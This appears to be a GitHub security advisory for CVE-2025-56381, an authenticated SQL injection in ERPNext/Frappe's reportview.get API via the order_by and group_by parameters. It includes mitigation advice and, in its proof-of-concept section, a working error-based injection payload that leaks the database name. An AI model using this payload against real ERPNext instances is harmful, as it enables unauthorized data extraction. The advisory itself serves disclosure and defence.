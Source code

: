 # CVE-2025-56381 — Authenticated SQL Injection in ERPNext / Frappe via `order_by` and `group_by` Parameters

📌 **Summary**
ERPNext v15.67.0 and Frappe Framework v15.72.4 contain multiple **authenticated SQL injection vulnerabilities** in the `frappe.desk.reportview.get` API endpoint. Malicious input to the `order_by` or `group_by` parameters can be used to inject and execute arbitrary SQL statements. This allows an authenticated user (with basic access to reports) to extract sensitive data, perform database enumeration, and potentially manipulate or escalate privileges within the system.

---

## 🛠 Technical Details

* **Vulnerability Type:** SQL Injection (CWE-89)
* **Affected Product(s):** ERPNext / Frappe
* **Affected Versions:**

  * Frappe — **15.72.4**
  * ERPNext — **15.67.0**
* **Affected Endpoint:**

  ```
  POST /api/method/frappe.desk.reportview.get
  ```
* **Vulnerable Parameters:**

  * `order_by`
  * `group_by`
* **Authentication Required:** Yes (valid session via `sid` cookie)
* **Attack Type:** Remote
* **Severity:** High (SQL code execution, data exfiltration, potential privilege escalation)
* **Estimated CVSS v3.1 Score:** **8.6 (High)** — *estimate; final score should be assigned by official CVE authority.*
* **Status:** Not fixed (as of disclosure)
* **Discovered by:** Mohammed Aloli ([GitHub](https://github.com/MoAlali), [X](https://x.com/alaliksa_), [LinkedIn](https://www.linkedin.com/in/mohammedaloli/))
* **CVE ID:** **CVE-2025-56381**

---

## 🚀 Proof of Concept (PoC) — Error-based SQL Injection
<img width="1072" height="1376" alt="image" src="https://github.com/user-attachments/assets/ef4a77fa-a9f5-417f-baf0-5ebcef3523ce" />

> ✅ Test only on systems you **own** or have **explicit permission** to test. Do **not** use against production systems without consent.

### ❗ Payload (URL-encoded):

```text
%28select%20updatexml%28null%2Cconcat%280x7e%2Cdatabase%28%29%2C0x7e%29%2Cnull%29%29
```

### Example JSON Body (POST Request):

```json
{
  "doctype": "User",
  "order_by": "(select updatexml(null,concat(0x7e,database(),0x7e),null))"
}
```
This confirms that SQL injection has been successfully executed and the current database name has been leaked.

---

## 🧪 Exploitation Scenario

1. An attacker logs into an ERPNext/Frappe instance with basic permissions (e.g., access to standard reports).
2. A crafted POST request is sent to `/api/method/frappe.desk.reportview.get` with a malicious `order_by` or `group_by` payload.
3. The backend improperly injects this value directly into an SQL query without sanitization.
4. The attacker sees a database error revealing injected output — confirming the injection.
5. The same technique could be chained with time-based payloads, UNION-based injection, or privilege escalation paths depending on the underlying database configuration.

---

## 🔐 Mitigation Recommendations

1. **Use Parameterized Queries:** All user input must be bound securely and **never** concatenated directly into SQL queries.
2. **Strict Input Validation:** Validate `order_by` and `group_by` against a known allowlist of acceptable column names before processing.
3. **Escape Identifiers Properly:** Use DBMS-specific escaping for column/field identifiers if dynamic usage is required.
4. **Minimize Exposure:** Restrict access to the `/reportview.get` API and report features based on user roles and trust levels.
5. **Sanitize Logs:** Avoid logging raw injection payloads to prevent leakage in audit systems.
6. **Rate Limit API Requests:** Throttle high-frequency API calls to reduce the impact of blind or error-based enumeration attempts.
7. **Apply Patches:** Frappe maintainers should release a patch securing this endpoint and audit other `frappe.desk` methods. Operators should upgrade as soon as a patch is available.

---

## 🔗 References

* Discoverer: [Mohammed Aloli](https://www.linkedin.com/in/mohammedaloli/)

  * GitHub: [MoAlali](https://github.com/MoAlali)
  * X (Twitter): [@alaliksa_](https://x.com/alaliksa_)
* Frappe Framework: [https://github.com/frappe/frappe](https://github.com/frappe/frappe)
* ERPNext Project: [https://github.com/frappe/erpnext](https://github.com/frappe/erpnext)
* OWASP SQL Injection Cheat Sheet: [https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

## 📢 Disclaimer

This advisory is published for educational and defensive security research purposes only. Exploiting this vulnerability without authorization is illegal and unethical. If you're a developer or administrator of ERPNext or Frappe, apply the recommended mitigations immediately and monitor for unusual API usage.

---
